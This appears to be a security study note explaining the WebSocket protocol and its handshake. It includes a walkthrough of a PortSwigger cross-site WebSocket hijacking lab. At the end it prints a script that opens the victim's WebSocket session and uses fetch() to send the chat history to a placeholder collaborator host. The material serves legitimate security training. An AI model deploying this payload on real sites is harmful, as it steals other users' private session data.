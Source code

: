 # WebSockets

Websockets is a communication protocol that provide for a full-duplex (two-way) interactive communication session between the user's browser and a server. With this, we can send messages to a server and receive responses without having to poll the server for a reply.

This is commonly used in the 'chat' feature in websites, such as raising enquiries to a chatbot or customer service employee. They also allow for users to performactions and stuff. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

## How it Works

This is how the connection is typically established:

<figure><img src="../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

A WebSocket handhsake request can be issued like this:

```http
GET /chat HTTP/1.1
Host: example.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
# Taken from HackTricks
```

Then the website would send a reply like this:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
# Taken from HackTricks
```

When the protocols are switched, a channel is opened for bi-directional communications and would remain open until either side closes the channel and the connection terminates.&#x20;

The exploitation happens when we intercept and change the traffic that is being sent through the WebSocket, and this can be done using Burpsuite. For example, we can use this to exploit XSS, SQL Injection, or even Command Injection in some rare cases.

The most common attack however is **Cross-Site Websocket hijacking**, which involves exploitation of the cookie that is used to identify a user. Sometimes, these cookies could be tagged to each unique user, and stealing it allows for impersonation of another user and reading of sensitive information.

## Example

This is the lab we will be using for this example:

{% embed url="https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab" %}

In this lab, there is a chatbot that relates each user to his websocket session via a sent cookie. The chatbot then sends back the entire history of each session once the word 'READY' is sent to it via websockets.

We can manipulate this by sending a basic XSS script that would retrieve the information and send it to our own attack server, in this case BurpSuite Collaborator is used.

```markup
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Then, our Burpsuite host would receive a callback that would contain all the data from another user's session.&#x20;
